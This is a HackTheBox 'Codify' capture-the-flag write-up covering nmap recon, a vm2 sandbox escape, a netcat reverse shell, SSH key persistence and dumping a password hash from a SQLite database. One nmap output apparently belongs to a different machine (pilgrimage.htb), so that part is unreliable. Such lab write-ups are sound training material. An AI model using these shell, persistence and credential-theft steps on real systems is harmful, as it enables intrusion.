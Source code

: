 ```yaml
---
title: HackTheBox - Codify write up
date: 2023-11-28 22:19:00 +0100
categories: [HackTheBox]
tags: [HackTheBox, Node.js, vm2, sqlite, SNYK-JS-VM2-5537100]
render_with_liquid: false
---
```


# Codify

# recon

I ran a simple `nmap` scan to find out port 22, 80 and 3000 are running on the machine

```jsx
$ nmap 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-28 13:40 +01
Nmap scan report for 10.10.11.239
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 3.44 seconds
```

upon sending a request to port 80 and examining the response headers, we can see that the `vhost` of this machine is `codify.htb`

```jsx
$ curl -v 10.10.11.239
*   Trying 10.10.11.239:80...
* Connected to 10.10.11.239 (10.10.11.239) port 80
> GET / HTTP/1.1
> Host: 10.10.11.239
> User-Agent: curl/8.3.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Date: Tue, 28 Nov 2023 12:38:37 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Location: http://codify.htb/
< Content-Length: 304
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://codify.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.239 Port 80</address>
</body></html>
* Connection #0 to host 10.10.11.239 left intact
```

I added that to `/etc/hosts` and ran `nmap` again to get more a more detailed scan about the open ports

```jsx
$ nmap -v -oN ports -v 10.10.11.219
# Nmap 7.94 scan initiated Sat Jul  8 20:01:58 2023 as: nmap -v -oN ports -v 10.10.11.219
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up, received echo-reply ttl 63 (0.12s latency).
Scanned at 2023-07-08 20:01:58 +01 for 2s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Jul  8 20:02:00 2023 -- 1 IP address (1 host up) scanned in 2.03 seconds
```

then ran a full scan on them to have an idea of what I’m dealing with

```bash
$ nmap -sC -sV -A codify.htb -p 22,80,3000 -oN detailed_scan
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-28 13:44 +01
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   122.83 ms 10.10.14.1
2   123.48 ms codify.htb (10.10.11.239)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.43 seconds
```

![index](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/index.png)

it appears that the website is some kinda sandbox to run `node js` application with some limitations such as blacklisting some modules that allows us to run OS commands

![limitations](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/limitations.png)

of course, one should never take these things at face value and manual tests are are must so I scrambled some test that tries to run commands but none of it worked, I could only get some basic info about the machine using the `os` model such as the architecture, the `tmpdir` ..


![editor](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/editor.png)

moving on, browsing to `/about` tells you that the website uses vm2 library that is `widely used and trusted tool for sandboxing JavaScript`, looking it up, I found this (sandbox bypass)[https://security.snyk.io/vuln/SNYK-JS-VM2-5537100] that allows us to run code from any potential blacklisted library using the view allowed ones


![rce](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/rce.png)

```bash
$ nc -lnvp 1000
Connection from 10.10.11.239:59734
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ ls .ssh
ls .ssh
ls: cannot access '.ssh': No such file or directory
svc@codify:~$ mkdir .ssh
mkdir .ssh
svc@codify:~$ echo '[MY_SSH_PUBLIC_KEY]' > .ssh/authorized_keys
echo '[MY_SSH_PUBLIC_KEY]' > .ssh/authorized_keys
svc@codify:~$ ^CExiting.
(14:23:14) [ archiso@jeff | ~ ]
$ ssh svc@codify.htb
Enter passphrase for key '/home/jeff/.ssh/id_rsa':
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

svc@codify:~$
```

# joshua

looking around I found an sqlite3 database with `joshua`'s password laying in `/var/www/contact`

```bash
svc@codify:/var/www/contact$ ls
index.js  open  package.json  package-lock.json  templates  tickets.db
svc@codify:/var/www/contact$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ sqlite3 tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite>
```
